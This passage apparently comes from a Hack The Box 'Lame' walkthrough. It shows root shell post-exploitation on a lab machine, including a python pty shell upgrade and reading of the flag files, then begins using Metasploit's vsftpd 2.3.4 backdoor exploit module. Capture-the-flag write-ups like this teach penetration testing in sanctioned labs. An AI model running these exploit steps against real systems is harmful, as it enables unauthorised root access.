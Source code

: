 SMB was running as root so our reverse shell is also running as root. We can now read the root and user flags.

```bash
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
root@lame:/# ls /home -R
/home:
ftp  makis  service  user

/home/ftp:

/home/makis:
user.txt

/home/service:

/home/user:
root@lame:/# cat /home/makis/user.txt
69454a93************************
root@lame:/# cat /root/root.txt
92caac3b************************
```

## TL;DR

- Vulnerable version of SMB allows for RCE as root

## Bonus

### vsftpd 2.3.4 with Metasploit

```bash
luc@kali:~/HTB/Lame$ sudo msfdb init && msfconsole -q
[+] Starting database
[i] The database appears to be already configured, skipping initialization
-----------------------------------------------------------------------------------
The pg and/or activerecord gem version has changed, meaning deprecated pg constants
may no longer be in use, so try deleting this file to see if the
'The PGconn, PGresult, and PGError constants are deprecated...' message has gone:
/usr/share/metasploit-framework/lib/pg/deprecated_constants.rb
-----------------------------------------------------------------------------------

msf5 > search vsftp

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)

```